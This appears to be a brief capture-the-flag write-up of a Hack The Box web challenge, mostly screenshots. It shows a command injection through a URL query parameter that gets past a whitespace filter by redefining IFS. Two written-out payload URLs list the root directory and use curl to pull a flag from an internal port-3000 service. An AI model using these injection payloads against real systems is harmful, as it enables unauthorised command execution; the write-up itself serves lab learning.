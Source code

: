 **Command Injection**

![image](https://user-images.githubusercontent.com/87831546/144929814-6c8566bf-9a28-4058-a117-86a1dcba7798.png)

But they are sanitising white spaces so we can't execute more than 1 word

![image](https://user-images.githubusercontent.com/87831546/144929845-d6de6f74-49b0-449e-b2ce-1edefbde29d9.png)

https://unix.stackexchange.com/questions/351331/how-to-send-a-command-with-arguments-without-spaces

![image](https://user-images.githubusercontent.com/87831546/144929867-c376dd0f-aba5-479a-9cca-26fbbc83c1f9.png)

```
http://46.101.18.144:32682/?command=IFS=',.';ls${IFS}/
```

![image](https://user-images.githubusercontent.com/87831546/144929875-7022de23-90c1-4f05-a9af-24d21f8e61d7.png)

We can see in /config/ups_manager.py is it running a local server on port 3000, so we need to get it out

![image](https://user-images.githubusercontent.com/87831546/144929899-20fe5b52-59c7-4939-800d-28676d67a4c9.png)

```
http://46.101.18.144:32682/?command=IFS=',.';curl${IFS}127.0.0.1:3000/get_flag
```

![image](https://user-images.githubusercontent.com/87831546/144929929-7e0c17d6-c2bb-4bb0-9117-a7552dfff331.png)

```
HTB{54nt4_i5_th3_r34l_r3d_t34m3r}
```
